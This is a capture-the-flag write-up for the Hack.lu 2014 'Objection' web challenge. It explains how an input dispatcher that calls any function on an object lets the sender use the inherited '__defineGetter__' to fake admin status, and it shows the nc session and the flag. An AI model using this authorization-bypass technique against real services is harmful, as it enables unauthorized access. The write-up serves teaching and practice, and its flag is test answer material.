 # Hack.lu CTF 2014: Objection

**Category:** Web
**Points:** 150
**Author:** TheJH
**Description:**

> This guard talks a weird dialect. And why does he talk in such a complicated way?
>
> Download: [objection_4966674d17ff296939c0e3dfccfe87ed.co](objection_4966674d17ff296939c0e3dfccfe87ed.co)
>
> `nc wildwildweb.fluxfingers.net 1408`

## Write-up

[The provided `objection_4966674d17ff296939c0e3dfccfe87ed.co` file](objection_4966674d17ff296939c0e3dfccfe87ed.co) resembles a Node.js app, except it’s written in “a weird dialect” instead of in JavaScript. This is [Coco](https://github.com/satyr/coco#readme), which is in turn a dialect of [CoffeeScript](http://coffeescript.org/). We [compile the Coco code to JavaScript](objection.js), since we’re more familiar with that language.

[The source code](objection.js) reveals that the program accepts commands as input:

* `login $password` attempts to login using `$password` as the password
* `get_token` reveals the token if you’re logged in as admin

Since we don’t know the admin password, we’ll have to find another way to set `client_context.is_admin` to a truthy value, to avoid hitting this `if` branch:

```js
if (!this.is_admin) {
  return cb("You are not authorized to perform this action.");
}
```

Let’s take a look at the code that parses our input:

```js
var ref$, funcname, args;
it = it.toString('utf8');
console.log("got line: " + it);
ref$ = it.split(' ');
funcname = ref$[0];
args = slice$.call(ref$, 1);
if (typeof client_context[funcname] !== 'function') {
  return con.write("error: unknown function " + funcname + "\n");
}
return client_context[funcname](args, function(it){
  return con.write(it + "\n");
});
```

The program accepts any command `funcname` as long as `client_context[funcname]` is a JavaScript function object. This means we’re not limited to the custom `login` and `get_token` methods – we can also use function properties that are inherited from the global `Object.prototype`. Using [some old code](https://github.com/mathiasbynens/tpyo/blob/b76ca2f4d7726c51c2f8c779d73773de91f86a56/tpyo.js#L7-L22), we quickly created the following list of such properties that are available in Node.js (which is based on the V8 engine):

* `constructor`
* `hasOwnProperty`
* `isPrototypeOf`
* `propertyIsEnumerable`
* `toLocaleString`
* `toString`
* `valueOf`
* `__defineGetter__`
* `__defineSetter__`
* `__lookupGetter__`
* `__lookupSetter__`

If we enter [`__defineGetter__`](https://javascript.spec.whatwg.org/#object.prototype.__definegetter__) as the command name and `is_admin` as its argument, the following code is executed:

```js
client_context.__defineGetter__(['is_admin'], function(it) {
  return con.write(it + "\n");
});
```

After that, every time `client_context.is_admin` is accessed, it results in the return value of `con.write(it + "\n")` instead of its initial value `false`. This means we can call `get_token` afterwards. Bingo!

```bash
$ nc wildwildweb.fluxfingers.net 1408
hello!
__defineGetter__ is_admin
get_token
undefined
The current token is flag{real_cowboys_dont_use_object_create_null}
```

The flag is `flag{real_cowboys_dont_use_object_create_null}`.

## Other write-ups and resources

* [Exploit in Python by @TheJH](thejh_exploit.py)
